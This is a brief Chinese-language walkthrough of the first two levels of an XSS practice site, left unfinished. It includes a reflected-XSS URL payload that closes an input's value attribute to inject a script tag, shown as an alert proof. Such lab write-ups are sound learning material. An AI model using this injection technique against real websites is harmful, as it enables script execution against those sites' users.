

# xss注入
[xss测试网站](http://xss.fbisb.com/)
## level1
第一题很简单，用户的输入会从url发到服务器后直接转到页面，如图

所以直接从url注入scrpit脚本

ok,顺利通关
## level2

```code
https://xss.fbisb.com/yx/level2.php?keyword=test
```
keyword会回显到页面input的value属性,url改为:  
```code
https://xss.fbisb.com/yx/level2.php?keyword="><script>alert("level2")</script>
``` 
闭合原有input标签，插入script脚本后通关


.....未完待续